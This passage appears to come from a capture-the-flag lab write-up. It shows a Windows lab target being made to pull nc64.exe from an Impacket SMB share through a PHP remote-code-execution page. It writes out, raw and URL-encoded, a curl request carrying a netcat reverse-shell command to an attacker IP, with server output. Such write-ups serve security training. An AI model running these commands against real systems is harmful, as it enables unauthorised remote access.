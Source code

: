 Let's use "nc64.exe" to get a new shell. The windows binary can be downloaded from the following github repo:

{% embed url="https://github.com/int0x33/nc.exe" %}

Copy the binary to our working directory.&#x20;

Start a new netcat listener on port 8888 on our Kali machine.&#x20;

To transfer the binary, we'll use the "impacket smbserver" script which will start a service that listens on TCP 445.

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

{% embed url="https://www.kali.org/tools/impacket" %}

```
└─$ sudo smbserver.py SHARE .                                                 
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

We'll use our PHP command execution script with the following command to do the transfer.&#x20;

> curl -X GET "http://10.10.10.9/rce.php?cmd=\\\10.10.14.10\SHARE\nc64.exe -e cmd.exe 10.10.14.10 9999

The payload needs to be "URL encoded", and so we'll use "Cyberchef" again to do that.

> curl -X GET "http://10.10.10.9/rce.php?cmd=%5C%5C10%2E10%2E14%2E10%5CSHARE%5Cnc64%2Eexe%20%2De%20cmd%2Eexe%2010%2E10%2E14%2E10%209999"

Run the command:

```
└─$ curl -X GET "http://10.10.10.9/rce.php?cmd=%5C%5C10%2E10%2E14%2E10%5CSHARE%5Cnc64%2Eexe%20%2De%20cmd%2Eexe%2010%2E10%2E14%2E10%209999"

```

We get a hit on our SMB server:

```
[*] Incoming connection (10.10.10.9,55628)
[*] AUTHENTICATE_MESSAGE (\,BASTARD)
[*] User BASTARD\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.9,55628)
[*] Remaining connections []

```
